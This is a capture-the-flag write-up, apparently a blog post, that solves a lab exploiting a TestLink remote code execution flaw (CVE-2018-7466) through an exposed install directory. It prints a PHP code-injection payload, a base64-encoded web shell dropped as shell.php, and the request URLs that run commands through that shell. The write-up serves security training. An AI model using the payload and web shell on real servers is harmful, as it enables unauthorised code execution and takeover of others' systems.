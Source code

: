 ```yaml
---
layout: post
title: AttackDefense.com [RCE] - CVE-2018-7466 Exploit
date: 2018-11-06 18:34 -0300
categories: [AttackDefense.com, ctf, writeups, CVE-2018, RCE]
tags: [ writeups, CTF,  challange, AttackDefense.com]
---
```


![Image of AttackDefense 2018](/uploads/Screenshot from 2018-10-26 17-44-27.png)

### Mission

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be attacked remotely. Remote Code Execution vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is not authenticated to the web application and needs to find a remote code execution attack to execute arbitrary commands on the server.

TestLink is a web based test management and test execution system. It enables quality assurance teams to create and manage their test cases as well as to organize them into test plans. These test plans allow team members to execute test cases and track test results dynamically.

Testlink (< v1.9.17) is vulnerable to a Remote Code Execution documented in CVE-2018-7466.

The following information may be helpful in exploiting the vulnerability:

- Database name: app
- Database Admin User	: pentester
- Database Admin Password: password1

Objective: Your task is to find and exploit this vulnerability.

Level difficulty: Intermediate

Category: Webapps CVEs > Remote Code Execution

### Solution

At first, I was provided with the following web application with an non-functional user account:

![Image of AttackDefense 2018](/uploads/adcve2/image11.png)

If you look close enough, you can see the following error message, leaking an public available path.

![Image of AttackDefense 2018](/uploads/adcve2/image10.png)

After checking this path [http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/logs/config_check.txt](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/logs/config_check.txt) I have discovered the following disclosed logs.

![Image of AttackDefense 2018](/uploads/adcve2/image8.png)

As we can see the install directory is still available at:
- [http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/)

![Image of AttackDefense 2018](/uploads/adcve2/image13.png)

- [http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/installIntro.php?type=new](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/installIntro.php?type=new)

![Image of AttackDefense 2018](/uploads/adcve2/image9.png)

- [http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/installDbInput.php](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/installDbInput.php)

![Image of AttackDefense 2018](/uploads/adcve2/image14.png)

- [http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/installNewDB.php](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/installNewDB.php) 

![Image of AttackDefense 2018](/uploads/adcve2/image12.png)

Using the following provided information ```Testlink (< v1.9.17) is vulnerable to a Remote Code Execution documented in CVE-2018-7466.``` I decided to search for:

![Image of AttackDefense 2018](/uploads/adcve2/image5.png)

And I found the following exploit description: [https://vulners.com/exploitdb/EDB-ID:44349](https://vulners.com/exploitdb/EDB-ID:44349)

![Image of AttackDefense 2018](/uploads/adcve2/image4.png)

According to the exploit description, I decided to set up my payload as such``` box');file_put_contents($_GET[1],base64_decode($_GET[2]));// ```, becouse my lab dose not have internet access in order to upload a shell form an external link. Example of payload inputs:

![Image of AttackDefense 2018](/uploads/adcve2/image1.png)


[http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/installNewDB.php](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/install/installNewDB.php)

![Image of AttackDefense 2018](/uploads/adcve2/image7.png)

I created a shell.php file using the following payload:

- [http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/config_db.inc.php?1=shell.php&2=PD9waHANCiRvdXRwdXQgPSBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7DQplY2hvICI8cHJlPiRvdXRwdXQ8L3ByZT4iOw0KPz4=](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/config_db.inc.php?1=shell.php&2=PD9waHANCiRvdXRwdXQgPSBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7DQplY2hvICI8cHJlPiRvdXRwdXQ8L3ByZT4iOw0KPz4=)

I executed my code using the created shell.php file as such:

- [http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/shell.php?cmd=ls](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/shell.php?cmd=ls)

![Image of AttackDefense 2018](/uploads/adcve2/image6.png)

- [http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/shell.php?cmd=whoami%20;%20date](http://n4jxomxeovad0py60873kbmus.public1.attackdefenselabs.com/shell.php?cmd=whoami%20;%20date)

![Image of AttackDefense 2018](/uploads/adcve2/image3.png)

If you have question about this challange, please ask them in the comment section bellow.

![Image of AttackDefense 2018](/uploads/adcve2/image2.png)